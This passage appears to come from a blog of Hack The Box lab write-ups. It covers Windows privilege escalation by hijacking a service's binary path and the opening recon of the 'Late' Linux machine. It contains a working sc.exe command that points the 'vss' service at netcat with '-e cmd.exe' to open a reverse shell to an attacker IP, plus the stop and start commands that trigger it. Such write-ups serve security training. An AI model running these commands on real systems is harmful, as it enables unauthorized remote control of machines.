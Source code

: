 Then, we can try to modify a service binary path in order to obtain a reverse shell. First, we upload a netcat executable and test if the executable is valid for the version of the machine:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221115102623.png' | relative_url }}" text-align="center"/>
</div>

The error message talking about socket tell us that iindeed is valid and then, we modify a service runned by Administrator, for example sc.exe:

```powershell
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.9 1234"
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221115103509.png' | relative_url }}" text-align="center"/>
</div>

And then we set up a Netcat listener and then stop and start the service to run our command:

```powershell
sc.exe stop vss
sc.exe start vss
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221115104108.png' | relative_url }}" text-align="center"/>
</div>

<br />


### 5. Late - Linux. (Flask framwork, Jinja SSTi, Pspy)

In this case we have a machine that is hosting SSH and HTTP services on defaults ports. 

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221125095422.png' | relative_url }}" text-align="center"/>
</div>

So, we go to the web in order to do exploration job. Gobuster don't show anything useful and Wappalyzer tell us that the system behind is Ubuntu:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221125095601.png' | relative_url }}" text-align="center"/>
</div>

In manual exploration we see a link that leads to image.late.htb

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221125095924.png' | relative_url }}" text-align="center"/>
</div>

